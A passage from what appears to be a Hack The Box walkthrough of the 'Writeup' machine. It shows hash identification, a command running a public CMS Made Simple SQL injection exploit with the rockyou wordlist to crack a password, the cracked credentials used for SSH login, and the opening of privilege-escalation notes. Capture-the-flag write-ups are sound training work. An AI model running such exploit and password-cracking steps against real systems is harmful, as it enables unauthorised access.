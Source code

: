 4. I wonder what the hashes mean. I used hashkiller and other online hash sites and no results showed up.

    ```shell
    # hash-identifier

    HASH: 5a599ef579066807

    Possible Hashs:
    [+]  MySQL
    [+]  MD5(Middle)

    Least Possible Hashs:
    [+]  MD5(Half)

       -------------------------------------------------------------------------
     HASH: 62def4866937f08cc13bab43bb14e6f7

    Possible Hashs:
    [+]  MD5
    [+]  Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
    ```

5. Surprisingly, the exploit script also included the function to brute force the hash using a dictionary file of your choice. I used `rockyou.txt` and executed the script again:

    ```shell
    python cmsmadesimple22-sql.py -u http://10.10.10.138/writeup --c -w /usr/share/wordlists/rockyou.txt
    ```

    ![htb-writeup-passwordcrack](htb-writeup-passwordcrack.png)

    I found the password! Now how do I log in? I remembered that SSH was opened so I tried that since we have the username as well.

    ```
    ssh jkr@writeup
    password: raykayjay9
    ```

    User flag has been obtained.

### Privilege Escalation

1. This is where it got hard for me. Running `LinEnum` and `linuxprivchecker` scripts didn't produce results that lead to privesc, more like rabbit holes of trying to manipulate PATH to run `/etc/update-motd/10-uname` script.
